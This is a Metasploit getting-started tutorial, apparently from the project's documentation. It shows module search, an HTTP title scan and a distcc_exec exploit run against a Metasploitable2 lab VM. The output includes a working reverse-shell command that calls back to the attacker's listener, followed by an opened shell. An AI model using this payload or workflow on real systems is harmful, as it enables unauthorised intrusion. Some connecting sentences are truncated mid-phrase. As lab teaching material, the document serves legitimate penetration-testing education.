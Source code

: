 ## Getting started
Assuming you have installed Metasploit, either with the official Rapid7 nightly installers or through Kali, you can use the `msfconsole` command to open Metasploit:
```msf
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.3.35-dev-0fc88a8050               ]
+ -- --=[ 2357 exploits - 1227 auxiliary - 413 post       ]
+ -- --=[ 1387 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 >
```

### Finding modules
You can use the `search` command to search for modules:
```msf
msf6 > search type:auxiliary http html title tag

Matching Modules
================

   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/title                   normal  No     HTTP HTML Title Tag Content Grabber


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/title

msf6 >
```

active module:
```msf
msf6 > use auxiliary/scanner/http/title
msf6 auxiliary(scanner/http/title) > 
```

### Running Auxiliary modules
extracting the HTTP title from a server:
```msf
msf6 > use auxiliary/scanner/http/title
msf6 auxiliary(scanner/http/title) > 
```

Each module offers configurable options which can be viewed with the `show options`, or aliased `options`, command:
```msf
msf6 auxiliary(scanner/http/title) > show options

Module options (auxiliary/scanner/http/title):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        80               yes       The target port (TCP)
   SHOW_TITLES  true             yes       Show the titles on the console as they are grabbed
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   STORE_NOTES  true             yes       Store the captured information in notes. Use "notes -t http.title" to view
   TARGETURI    /                yes       The base path
   THREADS      1                yes       The number of concurrent threads (max one per host)
   VHOST                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/title) > 
```

the module will run against:
```msf
msf6 auxiliary(scanner/http/title) > set RHOSTS google.com
RHOSTS => google.com
```

The `run` command will run the module against the target, showing the target's HTTP title:
```msf
msf6 auxiliary(scanner/http/title) > run

[+] [142.250.180.14:80] [C:301] [R:http://www.google.com/] [S:gws] 301 Moved
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

both `RHOSTS` and enabling `HttpTrace` functionality:
```msf
msf6 auxiliary(scanner/http/title) > run rhosts=google.com httptrace=true 

####################
# Request:
####################
GET / HTTP/1.1
Host: google.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36


####################
# Response:
####################
HTTP/1.1 301 Moved Permanently
Location: http://www.google.com/
Content-Type: text/html; charset=UTF-8
Server: gws
Content-Length: 219

<HTML><HEAD><meta http-equiv="content-type" content="text/html;charset=utf-8">
<TITLE>301 Moved</TITLE></HEAD><BODY>
<H1>301 Moved</H1>
The document has moved
<A HREF="http://www.google.com/">here</A>.
</BODY></HTML>

[+] [142.250.180.14:80] [C:301] [R:http://www.google.com/] [S:gws] 301 Moved
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/title) > 
```

### Running exploit modules
For instance - targeting a vulnerable Metasploitable2 VM and using the `unix/misc/distcc_exec` module:
```msf
msf6 > use unix/misc/distcc_exec
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(unix/misc/distcc_exec) > 
```

Each module offers configurable options which can be viewed with the `show options`, or aliased `options`, command:
```msf
msf6 exploit(unix/misc/distcc_exec) > options

Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/misc/distcc_exec) > 
```

For this scenario you can manually set each of the required option values (`RHOST`, `LHOST`, and optionally `PAYLOAD`):
```msf
msf6 exploit(unix/misc/distcc_exec) > set rhost 192.168.123.133
rhost => 192.168.123.133
msf6 exploit(unix/misc/distcc_exec) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
```

The `run` command will run the module against the target, there is also an aliased `exploit` command which will perform the same action:
```msf
msf6 exploit(unix/misc/distcc_exec) > run

[+] sh -c '(sleep 4375|telnet 192.168.123.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.123.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 192.168.123.1:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo BmpMGFX6NDVlh5h0;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "BmpMGFX6NDVlh5h0\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.123.1:4444 -> 192.168.123.133:48578) at 2023-09-21 14:42:42 +0100

whoami
daemon
```

New in Metasploit 6 there is added support for running modules with options set as part of the run command:
```msf
msf6 exploit(unix/misc/distcc_exec) > run rhost=192.168.123.133 lhost=192.168.123.1 payload=cmd/unix/reverse

[+] sh -c '(sleep 4305|telnet 192.168.123.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.123.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 192.168.123.1:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo QqL1Uzom6eBFilyL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "QqL1Uzom6eBFilyL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.133:52314) at 2023-09-21 13:52:40 +0100

whoami
daemon
```

